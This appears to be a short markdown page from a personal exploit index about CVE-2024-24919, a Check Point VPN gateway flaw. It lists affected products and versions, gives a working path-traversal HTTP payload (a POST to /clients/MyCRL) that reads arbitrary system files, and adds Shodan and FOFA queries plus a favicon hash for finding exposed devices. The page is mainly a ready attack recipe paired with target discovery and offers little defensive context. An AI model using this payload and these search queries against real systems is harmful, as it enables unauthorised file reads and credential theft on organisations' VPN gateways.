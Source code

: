 ```yaml
---
title: (CPSSLNE) CVE-2024-24919 - Databased Index
permalink: /cpsslne
---
```


<link rel="stylesheet" type="text/css" href="css/styles.css">
<link rel="stylesheet" type="text/css" href="css/font.css">
<link rel="stylesheet" type="text/css" href="css/posts.css">

Vulnerability disclosed by [Checkpoint](https://blog.checkpoint.com/security/enhance-your-vpn-security-posture) on May 27th 2024. 

This vulnerability, when taken advantage of, grants the attacker read access to system files.

|Products Affected| Versions Affected|
|------------------|-----------------|
|Check Point Quantum Gateway| R81.20, R81.10, R81, R80.40|
|CloudGuard Network| R81.20, R81.10, R81, R80.40|
|Check Point Spark|R81.10, R80.20|

### Payload
```
POST /clients/MyCRL HTTP/1.1
Host: <Host>

aCSHELL/../../../../../../../<File>
```

### Lookup Methods
> Favicon Hash: 794809961


|Shodan|FOFA|
|-------|----|
|title:"Check Point" ssl:"target"|title="Check Point SSL Network Extender"|
|http.favicon.hash:794809961||
